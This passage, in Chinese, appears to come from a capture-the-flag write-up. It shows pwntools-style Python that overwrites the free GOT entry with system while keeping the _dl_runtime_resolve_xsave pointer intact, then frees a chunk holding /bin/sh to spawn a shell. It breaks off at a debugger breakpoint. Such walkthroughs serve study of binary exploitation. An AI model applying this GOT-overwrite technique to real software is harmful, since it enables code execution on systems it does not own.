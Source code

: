 由于写是从0x60200a开始写到，先保持地址0x7ffff7ffe168不变。

```python
mm = 0x7ffff7ff
py = p64(mm) + 'a'*6 + p64(system) + '\n'
edit(8,len(py),py)
```

![upload successful](/images/pasted-143.png)

可以看到free被改成了system，并且保持了原来的一部分正确。

但是！发现还是不可以的。

下面保持原来下一个_dl_runtime_resolve_xsave也是不变的，即0x7ffff7deee40不变。

```python
mm = 0x7ffff7ff
#4byte

dll = 0x7ffff7deee40
#6byte

py = '\xff\xf7\xff\x7f' + '\x00\x00' +p64(dll) + p64(system) + '\n'
debug(0x400CCA,0)
edit(8,len(py),py)

```


![upload successful](/images/pasted-144.png)


将1号块写入/bin/sh，然后free(1)

断点设置在free处


![upload successful](/images/pasted-145.png)
